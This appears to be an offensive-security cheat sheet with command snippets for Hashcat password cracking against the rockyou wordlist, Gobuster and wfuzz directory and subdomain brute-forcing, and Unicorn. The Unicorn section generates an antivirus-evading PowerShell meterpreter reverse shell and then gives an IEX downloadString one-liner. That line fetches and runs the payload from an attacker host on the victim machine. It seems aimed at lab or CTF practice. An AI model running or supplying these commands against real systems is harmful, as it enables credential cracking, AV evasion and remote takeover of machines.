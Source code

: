 ## Hashcat
```
hashcat --example-hashes | less
hashcat -a 0 -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
hashcat -a 0 -m 1800 hash.txt /usr/share/wordlists/rockyou.txt -r rules/best64.rule
```
```
-a :: attack mode -m ::hash type -r rule file
attack   # | Mode
        ===+======
         0 | Dictionnary (Straight)
         1 | Combination
         3 | Brute-force
rules :  /usr/share/hashcat/rules/
```
```
cisco password cracking :: https://www.infosecmatter.com/cisco-password-cracking-and-decrypting-guide/
```
[Header](#header)
## Discovery

#### Gobuster
```
gobuster -h
gobuster dir[|vhost] -u http://example.com/ -w rockyou.txt -x php,text -t 50
```

Note :: if gobuster return 200 ok  for all the dictionnary you can use wfuzz

```
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.10/FUZZ | tee wfuzz.log
```
Then hide result with the appropiate option:
```
--hc/hl/hw/hh N[,N]    +Hide responses with the specified code/lines/words/chars
```
##### Wfuzz for listing of subdomains
```
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1mil-5000.txt -u website.com -H "Host: FUZZ.website.com" --hw 123
```
[Header](#header)

## Unicorn
```
/opt/unicorn/unicorn.py windows/meterpreter/reverse_tcp 10.10.10.26 4545
```
```
This generate 2 files:
    - powershell_attack.txt (which is the payload encrypted to bypass AV)
    - unicorn.rc
```
Just call metasploit with -r option
```
msfconsole -r unicorn.rc
```
And on the remote machine:
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10/powershell_attack.txt')
```
```
Note :: If you execute the above line in powershell you will need to remove the powershell command from powershell_attack.txt
```